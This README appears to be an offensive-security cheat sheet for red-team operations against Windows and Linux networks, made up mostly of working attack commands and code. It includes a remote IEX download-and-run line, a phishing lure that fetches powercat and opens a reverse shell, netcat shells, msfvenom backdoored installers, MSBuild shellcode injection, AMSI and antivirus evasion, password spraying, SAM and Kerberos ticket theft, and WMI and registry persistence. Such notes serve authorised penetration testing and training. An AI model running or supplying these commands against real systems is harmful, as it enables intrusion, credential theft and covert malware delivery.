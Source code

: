 # Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```


</details>

## Password Attacks

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

## Initial Access
Ports of interest

- 22 - SSH
- 135 - RPC
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WMI/WinRM

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution
```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> veil </summary>

``` bash
# use veil to produce payloads, configurable with metasploit
veil 
use evasion 
use powershell/meterpreter/rev_tcp
set lhost 192.168.1.1
set lport 443
generate
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness

There are several key pieces of information we should always obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes


<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
```
</details>

<details>
<summary> windows </summary>

``` bat
rem misc commands for situational awareness
systeminfo
ipconfig /all
route print 
netstat -ano
Get-Process

rem see powershell history
Get-History

rem find the logged powershell history from PSReadline
(Get-PSReadlineOption).HistorySavePath

rem see what groups your user is a member of. Builtin grpuops of note are Backup Operators (can create backup of all files on system), Remote Desktop Users (can RDP to the machine), and Remote Management Users (can access system with WinRM)
whoami /groups

rem check for SeImpersonatePrivilege enabled for priv esc
whoami /priv

rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
Get-LocalUser
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem list all groups (local or domain)
net localgroup
Get-LocalGroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
Get-LocalGroupMember "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem check for windows credential guard
Get-ComputerInfo

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show all installed appilcations (32 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show all installed appilcations (64 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem look for user files containing potentially sensitive information
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs

# start bloodhound application
./BloodHound
```
</details>

## Lateral Movement
<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves (with SMB) as the password with tools like psexec 
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```
</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it
# on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```
</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: [here is a good one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

</details>

<details>
<summary><b>Windows</b></summary>

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

